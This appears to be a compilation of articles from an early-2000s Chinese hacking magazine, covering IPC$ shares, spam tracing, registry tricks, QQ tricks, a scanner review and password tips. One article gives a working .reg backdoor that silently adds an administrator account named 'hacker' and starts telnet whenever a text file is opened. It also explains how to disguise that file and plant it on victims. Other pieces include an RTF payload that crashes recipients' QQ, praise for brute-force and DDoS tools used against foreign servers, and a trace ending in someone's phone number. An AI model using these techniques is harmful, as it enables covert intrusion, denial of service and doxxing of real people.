答：你混淆了 IPC$ 与 139 的关系。能进行 IPC$ 连接的主机一般开了 139 或 445，但开这两个端口不一定能空连接，因为对方可以关闭 IPC$ 共享。

- 13. 我所在局域网机器多为 Windows XP。扫到几个 administrator 空口令主机，可连但不能复制东西，报错 5，为什么？

答：XP 安全性更高。默认策略对本地账户网络登录进行身份验证限制，常为来宾权限，即使用管理员远程登录也只有来宾权限，复制会报错 5（权限不足）。

- 14. 我用 `net use \\192.168.0.2\ipc$ "password" /user:"administrator"` 成功了，但 `net use i: \\192.168.0.2\c$` 却提示输入密码，为什么？

答：即使是管理员，若管理员在设置 `C$` 共享权限时未允许 administrator 访问，也会出现该问题（普通共享可设置访问权限，默认共享通常不行）。

- 15. 若自己机器禁止 IPC$，是否还能 IPC$ 连接别的机器？若被禁 server 服务呢？

答：禁止以上两项仍可发起 IPC$ 连接，但建议亲自实验更清楚。

- 16. 能解释下面两个错误吗？

```text
c:\>net time \\61.225.*.*
系统发生 5 错误。
拒绝访问。

c:\>net view \\61.225.*.*
系统发生 5 错误。
拒绝访问。
```

答：错误 5 表示权限不足。后来发现是忘记删除已建立的 IPC$ 连接，再执行上述命令就会触发错误 5。

- 17. 麻烦帮我看这是怎么回事？

```text
F:\>net time
找不到时间服务器。
请输入 NET HELPMSG 3912 以获得更多的帮助。


```

答：命令写错了，应是 `net time \\ip`。未输入 IP 自然找不到服务器；`view` 命令也应指定 IP，即 `net view \\ip`。

（文中还提醒：提问时应给出具体情况和报错命令，便于分析。）

## 十六 结束语

坦白说，这篇文章技术含量不高，重点在于解惑。作者希望读者遇到问题时多分析原因，不要一遇到困难就简单归因为“防火墙或权限不够”。最后祝大家旅途愉快。

### 傻瓜黑客

### 如何追踪垃圾邮件来源

by analysist

最近总是收到一些垃圾邮件，除了一些无聊的宣传信之外，还有一些冒用别人名义的病毒邮件。在主页留言板上经常可以看到抱怨 C4ST 某成员给自己发病毒帖子的留言。虽然一般情况下大家都知道这是别人伪造的，但是如何追踪垃圾邮件的来源呢？下面根据一些实际例子讲述如何追踪到垃圾邮件发送者的大概位置。

一般来说，我们是根据邮件的原始信息进行追踪的。以 Foxmail 为例，废件箱里有三封垃圾邮件，逐一分析它们的来源，如图1所示。
图 1

首先，选择第一封邮件，点击右键，选择原始信息，我们可以看到该邮件的头信息，如图2所示。
图 2
图 3

从该邮件头，我们可以得到很多有用信息。需要特别注意 `Received:` 字段，它包含邮件的传输路径。其中 `From` 后是发送邮件服务器，`by` 后是接收邮件服务器，由此可得到该邮件的大致传输路径为：

```text
211.157.4.254 -> 211.157.0.4 -> smtp.x263.net


```

这样我们认为发送垃圾邮件者可能位于 IP 地址 211.157.4.254，发送邮件的服务器 IP 为 211.157.0.4。下面进行验证，如图3、图4所示。
图 4

PING 不通并不一定代表主机不存在，也可能关闭了 PING 响应或安装了防火墙。再连接 25 端口查看，如图5所示。
图 5
图 6

可以看到，该邮件服务器可以匿名发送邮件，但对收信人地址有限制，只能投递到它保存列表中的服务器。这类 SMTP 服务器安全性不如 ESMTP，容易被利用进行伪造发信。我们还可以利用 Windows 自带的 `nslookup` 获取该邮件服务器的更多信息（感谢 PKKingSon 提供技术支持），如图6所示。

现在，我们基本可以确定发送垃圾邮件者的位置了……可以访问网址 `http://lrt.3see.com/guest/ip/ip2.htm`，我们得到了下面的信息，如图7所示。

### 在线 IP 地址查询结果

你查询的IP是：211.157.004.254  
查询IP所在地区：北京大兴  
提供者是：夜飞扬

图 7

OK，到现在为止，我们或者直接联系 chinaacc.com 的人……或者利用所使用的客户端软件实现。接下来着第二封垃圾邮件，如图8所示。
图 8

这个比较有趣，好像垃圾发送者所处的机器就是邮件服务器！只有从263才能查到了。再看第三封信，如图9所示。
图 9

通过查看 jinre.com 以及 218.18.104.X（这里隐藏了部分信息）网站的信息……我们甚至获得了该人的邮件、电话和手机信息。

综合上面的讨论，邮件头往往会泄露邮件发送者的内网IP地址……普通用户最好通过 WEB 方式收发邮件，这样相对安全一些。

希望大家看完我的文章能够有所收获……还是尽量不要乱发垃圾邮件。
安全问题是我们每个电脑使用者极为关注的热门问题……文件类型之操作黑洞确实存在，并且可能随时危及到你的整个系统。

打开系统本身一些文件类型的文件也会存在安全漏洞？这到底是怎么回事？看完此文你就明白啦！

### 一、浅谈文件类型

我们如果要对文件类型进行编辑，可以通过控制面板打开“文件夹选项”……然后点击“高级”即弹出“编辑文件类型”窗口，如图1所示。
图 1

我们可以新建/编辑诸如“OPEN”等操作……命令行为 `D:\windows\system32\notepad.exe %1`，这解释了为何不同文件类型会调用不同程序。

Windows 系统中对于文件类型的相关操作设置都会被写入 Windows 注册表……如图3所示。

### 傻瓜黑客
情况不妙，“command”子键中的“默认”值是以二进制形式表示的，其实这些就等同如下这段代码：

```reg
Windows Registry Editor Version 5.00

[HKEY_CLASSES_ROOT\txtfile\shell\open]

[HKEY_CLASSES_ROOT\txtfile\shell\open\command]
@="D:\\WINDOWS\\system32\\NOTEPAD.EXE %1"
```

这样就直观多了。你是否已经知道制造文件类型操作“黑洞”了呢？我们完全可以通过注册编程来设置文件类型的“打开”操作或其它操作。

### 二、制作操作黑洞

有了上面的一些基础知识，就可以开始制作文件类型操作黑洞了。首先用记事本编写一个内容如下的注册表文件 HAPPY.reg，是针对文本文件的：

```reg
Windows Registry Editor Version 5.00

[HKEY_CLASSES_ROOT\txtfile\shell\open]

[HKEY_CLASSES_ROOT\txtfile\shell\open\command]
@="d:\\windows\\system32\\cmd.exe /c net user hacker abc /add & d:\\windows\\system32\\cmd.exe /c net localgroup administrators hacker /add & d:\\windows\\system32\\cmd.exe /c net start telnet & D:\\WINDOWS\\system32\\NOTEPAD.EXE"
```

这里最关键的地方大家应该看出，我们改写了 txtfile 的用于“打开”操作的 command 子键值；其中“&”用于分隔多条命令。示例中依次执行新建用户、加入管理员组、启动服务，最后再调用正常程序打开文本文件，从而形成隐蔽的恶意操作链。

### 三、种植操作黑洞

即把上述建立的注册表文件进行分散传播，让他人去执行。文中推荐通过自释放压缩包投递：先把 HAPPY.reg 改名为普通文本名（如 readme.txt）或其他类型，再在释放后执行 `regedit /s readme.txt`，使目标在不知情情况下导入注册表。

### 四、坚决抵制黑洞

如果发现打开文件时出现异常窗口，应检查文件类型关联与用于执行操作的应用程序路径是否被篡改，并检查系统账户及相关服务状态。对于可疑命令应及时更名、删除或转移，防止被继续利用。平时注意观察可有效发现并抵制此类“黑洞”。

### 注册表万能解锁方法

慕容秋荻

对于注册表被锁，大家已经见怪不怪了。通常情况下，我们要编辑一个 REG 文件来解锁。但这个方法并不能解决所有的问题，因为别人可以将注册表中 .reg 文件与 regedit.exe 的文件关联给改了，方法是修改注册表在 `HKEY_LOCAL_MACHINE\Software\CLASSES\.reg` 右边的窗口中更改“默认”值为 `"txtfile"`，当有人导入 REG 文件时会发现打开的竟然是记事本，这样就无法通过导入 REG 文件来解锁注册表。

有些朋友可能还想到了在 DOS 下恢复注册表，的确是个好办法，但 Windows XP 中已经不提供 DOS 实模式了（虽然可以用某些软件来“制作”出一个新 DOS，但很少有人这样做），这该怎么办呢？

其实，我们完全可以换一个角度来看问题。大家一定听说过甚至亲身体验过恶意网页，恶意网页中含有恶意代码可以修改我们的注册表，反过来说就是通过网页可以修改注册表中的键值，由此我们就可以想办法编辑一个 html 文件，在本地电脑上运行，就可以给注册表解锁了。

大家知道，注册表之所以会被锁住，是由于在注册表 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System` 分支下有 DWORD 值“Disableregistrytools”，它的键值为“1”时我们的注册表就被锁住了。所以，只要在网页中修改“Disableregistrytools”的键值为“0”，则我们的注册表就被“解放”了。

想到这个道理，让我们正式开始。打开记事本程序，编辑如下内容的文件，将其保存为以 .htm 或 .html 为扩展名的文件：

```html
<html>
<body>
<script language="JavaScript">
var shl=new ActiveXObject("Wscript.shell")
shl.RegWrite("HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System\\Disableregistrytools",0,"REG_DWORD")
window.alert('注册表解锁成功!')
</script>
</body>
</html>


```

运行这个 .html 文件，会显示提示信息“在此页上的 ActiveX 控件和本页上的其它部分的交互可能不安全。你想允许这种交互吗？”，如图 1 所示。
点击“是”，会弹出一个对话框，上面写着“注册表解锁成功！”，如图 2 所示。
然后试试是否解锁成功，点击“开始”菜单中的“运行”，在“运行”对话框中输入“Regedit”，按“Enter”键，看，注册表编辑器出来了。

给注册表解锁，还可以使用 INF 文件、VBS 文件、JS 文件等等，但部分恶意网页在浏览后会修改你的注册表，将上述文件禁用，这样就无法通过它们来给注册表解锁了。但一般说来，恶意网页不会禁止使用 html 文件，因为它们的心态是“怕你不上网（没机会整你了），却不怕你上网（再‘修理’你一次）”，而 html 文件正是网上的通用语言，所以使用这种方法可以说是个万能注册表解锁法。

> 注意：htm 或 html 文件在我们执行的时候很可能会被安装的杀毒软件当作网页脚本病毒处理，所以在运行基于 IE 代码时要先关闭正在运行的杀毒软件。

### 突破网吧禁止下载文件一妙招

在网吧上网时，由于网吧管理软件如美萍、万象幻境等软件的限制，我们无法自由下载软件。于是，不屈不挠的人们与网吧管理软件开始了各种“斗争”。本文要介绍的是一个非常简单的小方法，无需额外的软件，只要利用 IE 就可以了。

当受到限制无法下载文件时，不要着急，看到 IE 窗口右下角的那个地球图标和该图标旁边的那个“Internet”字样了吗？如图 1 所示。
### 傻瓜黑客

然后请你双击 IE 右下角的这个地球图标，这样就会调出 IE 的“Internet 安全属性”对话框，如图 2 所示。
呵呵，看到这个窗口就意味着我们就快要成功了。现在请你在该窗口中选择“Internet”选项，再选择里面的“安全”，再点“自定义级别”按钮，会弹出“安全设置”窗口，拖动滑块向下找到“文件下载”并改为“启用”，再找到“字体下载”并改为“启用”，如图 3 所示。
这样你就可以自由下载文件，突破网吧下载文件的限制了，大功告成！
### QQ 群发发送炸弹：彩色字体

理论上在 QQ 中最多只能发送 22 号字符给对方，但现在网上流行一种技术可以突破这种限制，发送任意大的字符给对方……所以撰写此文，揭露此炸弹的制作过程和方法，并做简单分析。

在 QQ 好友名单中选定一个好友头像，选择“收发消息”，在出现的“发送消息”窗口中输入如下字串：

```text
{\rtf1\ansi\ansicpg936\deff0\deflang1033\deflangfe2052\fonttbl ...
{\colortbl ;\red0\green0\blue0;\red128\green0\blue128; ...}
\viewkind4\uc1\pard\cf1\lang2052\f0\fs28 ...


```

点击“送讯息”按钮，对方就会收到特大的华文行楷“黑客X档案”，而且每一个字的颜色都不一样，如图 1 所示。
那么这些代码我是怎么得到的呢？很简单，用写字板和 16 进制文件编辑器 UltraEdit-32 就可以得到这些代码。先在 Windows 写字板输入内容并编辑字体、颜色与大小，然后在“文件”菜单中选择“另存为”……

### 傻瓜黑客

下拉列表框中找到“Rich Text 格式（RTF）”，将其保存为 RTF 文件即可，如图3所示。也就是说，我们发送给对方的其实是一个 RTF 文件的代码。
现在，运行 UltraEdit-32，用它打开这个编辑好的 RTF 文件，你会看到这个 RTF 文件的内容就是我们上面输入的那些代码，如图4所示。把这些内容复制到 QQ 的“发送消息”窗口中，点击“发送”按钮，对方就会看到你精心准备的这些内容。
在上面那些代码中，“fs”是用来设置后面文字字号大小的。如果把“fs”后面的数值改得非常大（如3699）再发送给对方，对方会弹出非法操作对话框，随后 QQ 自动关闭。这就是所谓利用特大字符让对方下线的方法。

```rtf
{\rtf1\ansi...\fs999999999...\par}
```

```rtf
...\par}
```

点击右下角闪动的 QQ 头像查看消息内容，会弹出一个对话框，显示内存错误（如写入/读取错误）并提示终止程序。

> “0x... 指令引用的内存不能为 Written/Read”
>
> “要终止程序，请单击‘确定’；要调试程序，请单击‘取消’。”

最后 QQ 被自动关闭。原因是在“fs”后输入的表示字号大小的数字串过长，超过32字节后可能引发缓冲区溢出，导致应用程序崩溃。文中测试版本包括 QQ0825、0630，受影响系统包括 Windows 98/2000/XP。

进一步分析认为该问题与 riched20.dll 的处理有关：对 RTF 文档属性标示中的数字（如字体大小）处理不当，造成溢出。

> **注意**：不要用这个方法去攻击对方；即使对方被迫下线，重新登录后通常仍可恢复。
>
> **防范方法**：可在系统中过滤或屏蔽异常消息，避免点击可疑内容，必要时升级版本。

让我们轻松一下：在 QQ 中发送更简单的 RTF 代码也能实现彩色/大号祝福语。由于完整代码较长，可仅输入关键片段（例如“\rtf\fs150 ... \par”）即可生效。

```rtf
\rtf\fs150\d1\f2\c4\ea\b\ec\c0\d6\par


```

其中“\d1\f2\c4\ea\b\ec\c0\d6”对应“羊年快乐”的十六进制编码；“\”是控制字符；“{\rtf”是 RTF 格式标志。掌握这些后，可以更方便地构造消息效果。

## 扫描工具

### 别选了 X-way2.5

射手

提起国内目前最优秀的网络检测工具，小榕的流光4.7和安全焦点的X-scan2.3，你一定听说过。是的，它们的确很棒，不过本文的主角却不是它们，而是另外一个和它们三分天下的扫描工具X-way2.5。

在介绍X-way2.5之前，我先大致地说一下这三个程序之间的优缺点。

X-scan2.3的扫描功能是没说的，我认为在这三个扫描程序中是最好的，或许这和它不断升级的版本及不断更新的CGI/IIS漏洞库有关吧。而且，在使用过程中X-scan2.3没有任何限制，不会存在使用时间和IP限制的问题，在Windows 9x/ME/NT/2000/XP下都可以使用。不过X-scan2.3是纯粹的一种漏洞检测工具，不集成其他任何功能，与流光及X-way相比，这算是其唯一的不足吧。

流光的最大特点就是高集成度，除了优秀的扫描功能外，它集成了NT远程命令、IIS远程命令、SQL远程命令、IPC种植器等等，这使得流光本身就具有了强大的攻击能力，特别是流光4.7的sensor工具，可以实现在远程服务器上的代理扫描，简直就是一个创举。不过流光有使用时间的限制，对国内的IP段也进行了保留。另外流光4.7必须在NT/2000/XP系统下才能使用，这对于使用Windows 9x/ME的朋友不能不说是一种遗憾。

好了，接下来就让我们看一下X-way2.5的使用吧。X-way2.5运行后的界面如图1所示，乍一看起来显得不如X-scan2.3及流光4.7那么大方，不过这没关系，因为我们所关注的是它能做什么。

在主界面的左边有六个大的图标，分别为“高级扫描”、“主机搜索”、“查询器”、“猜解机”、“黑匣子”、“嗅探器”。

“高级扫描”就是X-way2.5的主要扫描选项，主要包括“主机信息”、“路由表”、“IPC信息”、“WEB服务信息”、“FTP匿名检测”、“SMTP检测”、“FINGER检测”、“RPC检测”、“弱口令检测”、“端口”、“CGI/ASP漏洞”等11大项，如图2所示，这和X-scan2.3的扫描选项很相似。
图1
图2

最后让我们看看本文的主角X-way2.5。和流光4.7一样，X-way2.5最大的特点也是高集成度，除了拥有类似于流光4.7中的IIS远程命令及SQL远程命令外，还拥有流光4.7目前所不具备的一些功能。在这一点上，与流光4.7相比，毫不逊色。不过X-way2.5也存在一些欠缺的地方，比如X-way2.5在扫描结束时有时会出现一个“Invalid filename.”的提示小窗口，关闭这个小窗口后，X-way2.5看起来就好像睡着了一样，不论是点击“停止”按钮还是选择“高级扫描”、“主机搜索”、“查询器”等工具，就是没有任何反应，只得关闭重启X-way2.5才能正常，这算是X-way2.5的一个bug吧。

另外，还有重要的一点就是X-way2.5和X-scan2.3一样没有任何使用时间及IP段的限制，也没有操作系统的限制，在Windows 9x/ME/NT/2000/XP下都可以使用。

另外，X-way2.5是将IIS漏洞包含在“CGI/ASP漏洞”中的。我们可以点击“高级扫描设置”窗口中的“CGI规则”来自定义我们想要扫描的安全漏洞，这一点和流光4.7相似，如图3所示。
图3

如图4所示是X-way2.5扫描一个日本网站的情况，如何，不比X-scan2.3及流光4.7差吧！

让我们来看一下“主机搜索”，如图5所示。无论怎样，我们通过特定的设置来进行对特定目标的扫描，以此来提高扫描速度。如选中“printer漏洞”来扫描存在该漏洞的主机，选中“MS-SQL空口令”来扫描存在SQL空口令的主机等等。
图4
图5

“查询器”是X-way2.5自带的一个不错的功能，如图6所示，包括了“DNS查询”、“时间查询”、“地址查询”、“我的IP”、“FINGER”、“NT时间”等六个小功能，非常实用，可以用来查询远程服务器的时间、远程服务器上的用户列表、远程服务器的位置、进行远程服务器的域名及IP互换等。
图6

如图7所示就是“地址查询”的一次结果。“猜解机”，顾名思义，是用来猜解口令的，如图8所示。主要有“FTP猜解”、“SQL猜解”、“POP猜解”、“SOCKS5猜解”、“共享猜解”、“HTTP猜解”六项。这其中，FTP、SQL及共享猜解我认为是最有用的了。默认情况下，X-way2.5使用的是字典猜解，我们可以通过“猜解配置”来进行字典文件的设置。X-way2.5除了提供字典猜解外，也提供了暴力法破解，我们只需选中“选取字符集”，然后再选择自己需要的字符集，包括“大小写英文字母、数字以及特殊字符”，最后选择密码长度就可以对目标服务器进行穷举破解了，如图9所示。

如图10所示，是X-way2.5对一台日本服务器进行暴力破解，令人感到高兴的是，我们可以随时通过“暂停猜解”来暂停，通过“保存进度”来将猜解的情况进行保存，通过“读入进度”来随时继续猜解，这样你就不必担心猜解会半途而废了。类似的工具在流光4.7中也有。
图7
图8
图9
图10

“黑匣子”是X-way2.5自带的几个攻击性的小工具，如图11所示。其中，NUKE主要被用来攻击WIN98/98SE系统，OOB可以用来攻击WIN95和WINNT 4.0，MSSQL是专门用来对MS-SQL数据库进行DDOS攻击的，SMTP可以用来攻击SMTP服务器，PLUGIN是专门通过80端口对服务器进行攻击的工具。这可比X-scan2.3和流光4.7中绝对没有的好东西，不过可得小心使用呀！
图11

“嗅探器”，这是一个用于网络监听的工具，不错吧，这可也是X-scan2.3和流光4.7中所没有的一个好东西，很实用的，如图12所示。
图12

在X-way2.5的“工具(T)”中，还有一个不错的工具，就是“网络状态(X)”，如图13所示。它可以用来监视系统中目前哪些端口被开启、处于监听状态等等，这也是一个非常不错的功能。最后再让我们看一下“工具(T)”中的另一个非常好的工具“FTP服务器(T)”，如图14所示。使用非常简单，通过“...”选择好目录后，点击“启动”，我们的电脑就成了一台TFTP服务器了。
图13
图14

以上就是X-way2.5的一些最有用的功能。看了上面这些，你一定会感受到X-way2.5的高集成度，也同样会相信X-way2.5有实力同X-scan2.3及流光4.7一较今后之长短了吧！

### 偷窥你的情话

“小二……小二”……好像有人在叫我！都11:30了，这么晚还有人找我，什么事啊？原来是我班的团支书找我，他对我说：“他电脑里一些很重要的文件不见了（可能是MM的照片吧！哈哈），不过可以用金山毒霸查到那些文件。”他叫我帮他看看究竟发生什么事。我去看了一下，这种现象真的很“神奇”！怎么会这样呢？如果你也想知道，下面我们就来做个试验，就知道他的文件是怎么不见的了！
图1

首先，我们在桌面新建一个文件夹，如图1所示。接着就在里面新建一个.TXT文件（随便都行），如图2所示。你也许会问，干嘛要新建这个文件呢？答案就是为后面的对比当参照物啊。第二步就是本文问题的关键了，我们在记事本里面输入如图3的文本。为什么要这样呢？因为我们给新建的文件夹重命名时，倘若采用直接输入“{2227A280-3AEA-1069-A2DE-08002B30309D}”字符串的方式，“he”文件夹的创建将要失败，因此建议你采用用记事本编辑，然后再用复制、粘贴的方法来重命名文件夹。
图2
图3

接着用鼠标右键单击此文件夹，选择“重命名”命令，然后按下“Ctrl + V”组合键，新建的文件夹图标就改变为系统默认的“打印机”图标了，如图4所示。
图4

然后打开这个文件夹，你猜，你会看到什么呢？结果出人意料的就是你除了能看到如图5所示的东西外，再也没有其他的东西。
图5

那我们刚才新建的那文件去哪儿了呢？现在我们就到命令提示符下进入he文件夹所在的目录，输入命令：dir，你就会看到he.{2227A280-3AEA-1069-A2DE-08002B30309D}文件夹。接着输入cd he.{2227A280-3AEA-1069-A2DE-08002B30309D}进入he文件（其实它的真正身份是he.{2227A280-3AEA-1069-A2DE-08002B30309D}），再来个dir，就可以看到我们刚才新建的文件了，如图6所示。

```bash
C:\he.{2227A280-3AEA-1069-A2DE-08002B30309D}>dir
...
0 新建 文本文档.txt
```

图6

至此，我们已经知道原来是文件夹后缀名（不知是不是对的，我个人的想法）的改变让我们新建文件里的内容不见了。同样的道理，我们可以将控制面板、我的电脑和回收站等做成“保护壳”，它们的文件名分别如下：

- 控制面板.{21EC2020-3AEA-1069-A2DD-08002B30309D}
- 我的电脑.{20D04FE0-3AEA-1069-A2D8-08002B30309D}
- 回收站.{645FF040-5081-101B-9F08-00AA002F954E}

这种“神奇”现象对于我们保护一些重要文件有一定程度的作用（千万不要用这个来搞恶作剧哦！）。聪明的你可能想到这样一个问题——那怎样才能把被“藏”起来的文件显示出来呢？

```bash
rename he.{2227A280-3AEA-1069-A2DE-08002B30309D} he


```

> rename是一个DOS命令，它的作用同图形界面的“重命名”，格式是：rename <被改的文件名> <新的文件名>

现在回到he.{21EC2020-3AEA-1069-A2DD-08002B30309D}所在的目录，此时的文件夹已经变成了普通文件夹了，进到里面，我们新建的文件就“端”在那里了。现在你知道“她”就是怎么回事了吧？也许还有别的方法，如果你知道的话，可以给我来信哦。我的E-mail是chenyfkin@21cn.com。
随着网络的普及，个人计算机的安全问题已经越来越受到人们的重视，各式各样的个人防火墙也就应运而生。个人防火墙，顾名思义，就是运行在普通PC上的防火墙。今天要为大家介绍的是久负盛名的诺顿公司网络特警——Norton Internet Security 2002。
图1

秉承了诺顿的一贯作风，网络特警的用户界面十分华丽。如图2所示，整个程序共有四个部分组成：Internet状态、个人防火墙、隐私控制和禁止广告等。
图2

Internet状态：提供了当前可用的Internet连接的有关信息，可以说是对你的Internet有关设置的一个概览。而且你可以通过选择安全性检查登录到诺顿的网站对自己的机器进行全面的安全扫描，看看是否存在着安全漏洞。

个人防火墙：如图3所示，是网络特警的核心部分，大家可以在这里设置防火墙的各项属性，包括是否阻止端口扫描，是否启动自动禁止，哪些程序有权访问Internet，甚至可以自定义每个程序的访问方式，例如你可以只允许某个程序接收信息却不允许它向外发送信息。另外大家还可以设置局域网内的访问权限以保证系统的安全。（只需处理一次即可），因而大家对于谁正在访问Internet心里就会一清二楚了。
禁止广告和隐私控制：是网络特警比较独特的功能，如图4所示。禁止广告可以自动屏蔽网站上的一些广告，像新浪、搜狐这些网站上的烦人浮标广告都会被网络特警屏蔽掉。当然它也不是对所有的广告都奏效，对于一些打开时自动弹出的广告也是无能为力的。

说了这么多，它究竟起不起作用呢？下面我们就做个实验。约了几个朋友（都是100M宽带哦），先是对我的机器进行端口扫描，然后是洪水攻击。结果非常令人满意，端口扫描没有任何结果，而洪水攻击也并没有奏效。如图5、图6所示。
写到这里相信大家已经对网络特警的功能有了一个概括的了解，作为一款个人防火墙，它的功能是非常强大的，完全可以满足普通用户的网络安全需要。但美中不足的是，网络特警需要占用一定的系统资源，因此可能会使Windows的速度有所下降（特别是开机的时候）。但如果你使用的是24小时在线的宽带，那网络特警绝对是不错的选择。牺牲一点速度换来系统的安全还是值得的。

隐私控制可以在系统向外发送一些隐私信息时发出警报，提示你是否允许发送。举个例子，如果你把你的QQ密码设为隐私项，那么一旦系统向外发送这个密码时就会引起警报，并询问你是否允许发出，这样一来那些盗取QQ密码的工具（向外发送的那种）就会原形毕露了。同样，任何程序企图访问Internet时都会引起警报。

## 妙用金山毒霸恢复EXE文件关联故障

甘荟儿

《黑客X档案》曾连续有网友就EXE文件关联被修改而撰文，并提出了自己的解决办法。那些办法虽然很好，但对新手来说还不够自动化、简单化，如果能更方便易行就好了。其实，只要你手头上有金山毒霸，无论是2002版还是2003版都可以轻松地解决这个问题。

只要进入金山毒霸的安装目录，找到金山毒霸的主程序KAV9X.EXE，把它改为KAV9X.COM或KAV9X.SCR，然后双击运行这个文件，实时金山毒霸程序就被启动了，之后关闭金山毒霸，再把KAV9X.COM改回为KAV9X.EXE，运行其他EXE文件试试，是不是EXE文件都可以运行了？这样EXE文件关联就得到了恢复。

自动加载的时候会自动恢复注册表的EXE关联，是不是更简单？除了可以用来恢复EXE文件关联以外，这个技巧还有什么用呢？大家在清除木马时会删除木马文件，如果是文件关联木马，关联了EXE文件，则直接删除木马文件后会导致任何EXE文件都无法运行，此时这个技巧就派上用场了。

另外，受这个方法的启发，我还想到了该技巧的另一个用途，那就是注册表编辑器被恶意网页禁用后可以用这个办法来给注册表解锁，方法与上面的技巧雷同。只是我们要将注册表编辑器Regedit.exe改名为Regedit.com，然后双击这个改名后的文件，就可以打开注册表编辑器。

如果COM文件关联也被恶意网页更改了，可以将Regedit.exe改名为Rcedit.scr，然后到 HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System 分支下，将DWORD值“Disableregistrytools”的键值改为0就可以给注册表解锁。用这个方法不用修改注册表，也不用到DOS下边去恢复注册表，就可以运行注册表编辑器，非常简单易行。

## QQ密码防盗绝招十招

目前，针对QQ的盗号现象愈演愈烈，许多网友在使用QQ时全无往日的从容快活，生怕一不小心，自己的密码被窃，QQ号码被人盗走。其实，只要能时时警惕，再加上得当的防范方法，你的QQ密码会很安全。以下是笔者总结的QQ密码防盗十招，在此与大家分享。

#### 一、巧输具有迷惑性的混合密码

现在QQ被盗已经是常有的事，究其原因，就是大家不注意保护好自己的密码。虽然申请了“密码保护”，可是聪明的“黑手”们可用诱饵、木马潜伏等方法窃取你的密码。所以，设定一个好密码是非常重要的。除了密码长度一定要长、数字和英文字母混合输入以外，还可以使用中文作为密码。

方法是：打开记事本，输入要作为密码的字符，建议你能将中文和数字以及英文字母混合输入，这样安全性就提高了。比如你可以输入：QQ密码不正确！用鼠标右键点击屏幕右下角的QQ图标，在弹出菜单中选“个人设定”，此时会弹出“修改用户资料”对话框，点击其中的“网络安全”，选“修改密码”，输入旧口令，在“新口令”栏中把记事本里作为密码的中文粘贴进去（如图1所示），点“修改”，大功告成。

> Look~ 注意：一个中文占英文两个字符空间，QQ最大支持16位密码，所以你的中英文密码不能超过8个汉字。

#### 二、使用中文做密码使键盘记录机失效

有个问题大家可能会很感兴趣，就是如果用汉字做QQ的密码，假设QQ密码被键盘记录机记录下来，那么在对方接收QQ密码的邮箱中显示的是汉字还是乱码呢？答案是它无法收到密码。因为绝大部分键盘记录机都只是对键盘输入进行记录，而不能对剪贴板做记录，所以，如果采用复制的方式将事先准备好的汉字作为QQ密码，则几乎没有被键盘记录机盗取QQ密码的可能，也就没有后顾之忧了。

因为直接在QQ的密码框里是无法输入汉字的，所以要想用汉字做密码，必须用 Ctrl+V 进行粘贴。

### 三、巧防QQ木马

每次上QQ时，在任意的文本文档里键入密码然后复制，关掉那个文本文档，不保存！然后开QQ，用 Ctrl+V 这个快捷键把密码复制到密码栏里，可以防范绝大部分的QQ木马，但不防范键盘记录机。另外，事先准备两个常用的密码，登录QQ时使用一个，在使用完毕后在“新口令”栏中输入另一个密码，也可以防范大多数的QQ木马。

#### 四、密码输入方式有讲究

目前针对QQ的木马多得数不胜数，那么有什么办法避免木马记录我们输入的密码呢？这里告诉你一个小方法，你会发现输入QQ密码也是很有讲究的。

> Look~ 注意：具体方法是，假设你的QQ密码是3002，在输入时不要直接输入完整密码，这样直接输入会被木马程序直接记录下来。你可以先输入302，然后把光标移到3后面再输入0。这样你输入的密码依然是3002，但木马看到的就变成3020，可有效保护密码。

#### 五、做一个别人无法输入的密码

找一个16进制编辑器，我用的是UltraEdit，新建一个10字节的文件，输入 B92CB92CB92CB92C，保存为 test.txt。如果你用记事本打开这个 test.txt，你什么也看不到，都是不可见的字符，但是可以按快捷键 Ctrl+A 全部选中，Ctrl+C 复制。这时，剪贴板里的内容就可以作为你的密码了，直接在密码栏按 Ctrl+V，密码就输入进去了。

看到这里，你也许会问，这也没什么奇怪的地方啊？好，你再打开写字板，把剪贴板里的内容 Ctrl+V 一下。你看，不一样了吧？你会发现里面出现了5个“？”符号，奇怪吧，不仅在写字板里这样，在 Word 或 WPS 以及网页里，都会有同样的效果。明白了吧？如果有人知道了你的“密码找回”并试图使用的话，他会在返回的网页里看见几个“？”符号，错误地以为那就是密码，这样当然是进不去的了。这里我只是做个例子，实际上每一个 B92C 的组合会产生一个“？”（真正的“？”符号的 ASCII 码是63），而只要有一个这样的组合就可以起到保密的作用，其余的字节你可以随意填写，就不怕和别人的密码一样了。

### 六、把QQ号码变成一串0来防盗

QQ的广泛流行也带动了QQ密码窃取软件的大量传播，这些QQ密码窃取软件大都只记录少于等于9位的号码，长于9位的号码它们就不记录了。为什么？因为目前QQ号码最长的也只有9位，而且既然是要偷窃别人的QQ号码，当然是越短越好记的号码越好，那些黑软件者们也是这样想的，所以对长于9位的号码多数都不记录。即便是有这样的QQ密码窃取软件，我们也可以用下面的方法来防范它：把自己的QQ号码变成一串0！

具体的方法：

点击桌面上的QQ图标运行QQ，在弹出的“QQ用户登录”对话框中选择“注册向导”，在弹出的“QQ注册向导”对话框中选择“使用已有的QQ号码”，在“我的号码”栏中输入你的QQ号码，然后在你的QQ号码前面填入数字“0”（如图2所示），前面这个“0”最长可以20个。然后在“密码”栏中填入你的密码，连续点击“下一步”就会登录成功。然后对着系统托盘中的QQ图标点击鼠标右键，选择“个人设定”，在“基本资料”可以看到你的“用户号码”变为一串“0”后面跟着你原来的号码（如图3所示），形式为：00000000********，其中“*”代表你的QQ号码。

我的QQ号码为8位，加上这20个“0”，有28位长，有这么长的QQ号码吗？有能记录这么长QQ号码的窃取软件吗？即便有，他看到的也只是一串0，呵呵……采用这个方法有如下优点：

- 不保存你的好友文件和聊天记录，这样即便被盗也不怕泄密。
- 你的QQ号目录变为如“00000000686868”，有的窃取QQ密码的软件不能窃取前面有0的QQ号码，这样就多了一层保险。
- 下次如果不通过“注册向导”登录直接进入QQ，将无法看见你的在线所有好友名单，这样别人无法看见你的好友和聊天记录，从而为你进行更好的个人隐私保护。
- 用“注册向导”登录后只能看见你的在线好友，从而加快了登录速度，减少了不必要的把所有好友都下载过来的麻烦，既节约时间又加快系统登录速度。
- 有的黑客软件有记录键盘的功能，用这种方法可以让那些人很难发现这个一串0开头的是QQ号码。

### 七、彻底删除QQ目录防盗

